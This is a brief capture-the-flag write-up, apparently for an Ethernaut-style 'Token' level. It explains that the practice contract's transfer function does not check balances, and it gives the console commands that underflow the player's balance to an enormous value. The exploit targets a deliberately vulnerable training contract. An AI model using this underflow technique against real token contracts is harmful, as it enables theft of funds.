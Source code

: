 # Token

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

## Solution

The contract doesn't check for a valid balance so we underflow our balance to get a lot of coins.

1. Sent 21 tokens to the contract owner using `await contract.transfer(await contract.address, 21)`
2. Verified that my balance became great again with `await contract.balanceOf("0xFe8070fD6766868a66773A13035a1Cb4DF79A1E0")`

**Final Balance:** 1.15792089237316195423570985008687907853269984665640564039457584007913129639935e+77
